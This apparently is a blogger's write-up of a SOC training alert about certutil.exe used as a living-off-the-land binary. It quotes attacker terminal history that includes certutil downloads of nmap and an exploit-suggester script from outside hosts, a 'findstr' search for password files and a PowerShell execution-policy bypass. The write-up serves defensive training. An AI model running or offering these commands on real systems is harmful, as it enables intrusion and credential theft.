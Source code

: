 ```yaml
---
title: SOC163 - Suspicious Certutil.exe Usage
# Optional external URL for project (replaces project detail page).
external_link: ''
date: ''
reading_time: false  # Show estimated reading time?
share: false  # Show social sharing links?
profile: false  # Show author profile?
comments: false  # Show comments?
---
```


# Summary

In this alert we investigate a suspicious usage of a Windows binary called **certutil.exe**. The main focus of this exercise was to learn about LolBins (Living-off-the-land binaries).

> A Living-off-the-land binaries is any binary supplied by the operating system that is normally used for legitimate purposes but can also be abused by malicious actors. Several default system binaries have unexpected side effects, which may allow attackers to hide their activities post-exploitation.

# Alert

```
EventID : 113
Event Time : Mar, 01, 2022, 11:06 AM
Rule : SOC163 - Suspicious Certutil.exe Usage
Level : Security Analyst
Hostname : EricProd
IP Address : 172.16.17.22
Related Binary : certutil.exe
Binary Path : C:/Windows/System32/certutil.exe
Command Line : certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip
Alert Trigger Reason : -f parameter with certutil.exe
EDR Action : Allowed
```

# Detection

We can look at the terminal history of the host EricProd which caused the alarm. to be created in “Endpoint Security”.  As you can see in the table below “nmap” and the “windows-exploit-suggester”  were downloaded.

| EVENT      | COMMAND LINE                                                                                                                                             |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 01.03.2021 | `whoami`                                                                                                                                                 |
| 01.03.2021 | `net user`                                                                                                                                               |
| 01.03.2021 | `net user`                                                                                                                                               |
| 01.03.2021 | `ipconfig`                                                                                                                                               |
| 01.03.2021 | `ipconfig /all`                                                                                                                                          |
| 01.03.2021 | `net Localgroup`                                                                                                                                         |
| 01.03.2021 | `net start`                                                                                                                                              |
| 01.03.2021 | `netstat`                                                                                                                                                |
| 01.03.2021 | `tasklist`                                                                                                                                               |
| 01.03.2021 | `systeminfo`                                                                                                                                             |
| 01.03.2021 | `certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip`                                                                    |
| 01.03.2021 | `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py` |
| 01.03.2021 | `nmap -sV 192.168.0.0/24 -p 80`                                                                                                                          |
| 01.03.2021 | `python3 check.py`                                                                                                                                       |
| 01.03.2021 | `arp -a`                                                                                                                                                 |
| 01.03.2021 | `findstr /si pass *.txt \| *.xml \| *.ini`                                                                                                               |
| 01.03.2021 | `C:/powershell.exe -nop -exec bypass`                                                                                                                    |

# Analysis

By searching was certutil does we discovered that it is considered a legal binary offered by Windows OS. The user run certutil to download a version of nmap and later on he started performing a scan of the internal network. The scan was performed on the subnet: 192.168.0.0/24 looking at services running specifically on port 80.

```
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip

nmap -sV 192.168.0.0/24 -p 80
```

# Conclusion

The alert was a true positive. The purpose of suspicious activities performed with legal binaries for this incident was to download the tool called nmap. No malware was detected on the machine so we can assume it has been the user of the system who run the terminal commands.

<a href="https://matteogreek.github.io/" target="_self">Heartstone back home</a>
